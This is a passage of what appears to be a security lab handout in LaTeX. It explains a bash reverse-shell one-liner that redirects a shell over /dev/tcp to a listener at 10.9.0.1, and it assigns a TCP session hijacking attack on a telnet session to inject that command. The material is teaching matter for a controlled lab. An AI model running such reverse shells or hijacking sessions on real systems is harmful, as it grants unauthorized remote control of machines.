 In summary, \texttt{"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell, with its input coming from a tcp connection, and its standard
and error outputs being
redirected to the same tcp connection. 

In the demo shown above, when the \texttt{bash}
shell command is executed on \texttt{10.9.0.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.9.0.1}. This is confirmed via the \texttt{"Connection received on 10.9.0.5"}
message displayed by \texttt{netcat}.


The description above shows how you can set up a reverse shell if you have
the access to the target machine, which is the \texttt{telnet} server in
our setup, but in this task, you do not have such an access. Your task is 
to launch an TCP session hijacking attack on an existing \texttt{telnet}
session between a user and the target server. You need to inject your
malicious command into the hijacked session, so you can get a reverse
shell on the target server. 




\section{Submission}



\section{Agradecimientos}





